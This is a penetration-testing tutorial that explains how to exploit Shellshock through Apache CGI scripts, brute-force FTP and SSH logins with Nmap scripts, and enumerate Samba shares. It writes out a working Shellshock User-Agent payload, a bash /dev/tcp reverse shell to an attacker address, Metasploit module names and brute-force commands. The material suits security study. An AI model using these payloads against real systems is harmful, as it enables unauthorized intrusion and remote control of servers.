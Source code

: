 
---

##   Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)


Shellshock is the name give to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters:(){:;};

This vulnerability only affects Linux as Windows doesn't use Bash as it is not a Nix based operating system. 

In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux systems, after which the output is displayed to the client.

In order to exploit this vulnerability, we will need to locate an input vector or script that allows us to communicate with Bash.

In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

Whenever a CGI script is executed, the web server will initiate a new process and a run the CGI script with Bash.

This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

If we are having a website that is running Apache, we can see if there is a CGI script being used by right clicking on the web page and choose "view page source"

If we see any script section:<script> file.cgi</script> that means this website is probably vulnerable to a Shellshock attack.

**To make sure the website is vulnerable to Shellshock attack, we will use Nmap:**
`nmap -Pn --script=http-shellshock.nse --script-args "http-shellshock.uri=/(filename).cgi" -A -p80 -v (target webbsite)`

We will utilize BurpSuite for this vulnerability.

We will intercept the traffic with BurpSuite while are in the .cgi file page. For example, if the website is using a file called gettime.cgi in its code, we will go to this page: (target website)/gettime.cgi

After capturing the traffic, we will be attacking the User-Agent part in the HTTP header.

We send the request that we captured to Repeater.

To execute the malicious code:User-Agent: () { : ; };  echo; echo; /bin/bash -c '(our malicious code)' 

We can have a reverse shell session by using netcat on a port and replace the malicious code with this instead:bash -i >&/dev/tcp/(our IP address)/(port number) 0>&1.

**We can also use MSF to both, check if the target is vulnerable and to get a reverse shell session on target by using these modules: "auxiliary/scanner/http/apache_mod_cgi_bash_env", and "exploit/multi/http/apache_mod_cgi_bash_env_exec"**


---

## Exploiting FTP

We know already about the MSF module that would brute-force ftp servers to give us valid credentials. However, there is a much faster script in Nmap that does the same thing:`nmap -Pn --script=ftp-brute.nse --script-args userdb=(list of users),passdb=(list of passwords) -v -p21 (target IP)`

---

## Exploiting SSH

As we have done for FTP, we can use this command in Nmap that would brute-force ssh for us: `nmap -Pn --script=ssh-brute.nse --script-args userdb=(list of usernames),passdb=(list of passwords) -p22 -v (target)| grep "Valid credentials"`

---


## Exploiting Samba

After obtaining valid credentials, we can use SMBMap in order to enumerate SAMBA share drives, list contents of the shares as well as download files and execute remote commands on the target.

We can use SMBMap like so:`smbmap -H (target IP) -u (username) -p (password)`

We can use the tool enum4linux to run a basic enumeration against smb server like so: `enum4linux -a (target IP)` , and when we manage to get valid credentials, we can run another enumeration scan that is more comprehensive: `enum4linux -a -u (username) -p (password) (target IP)`

---

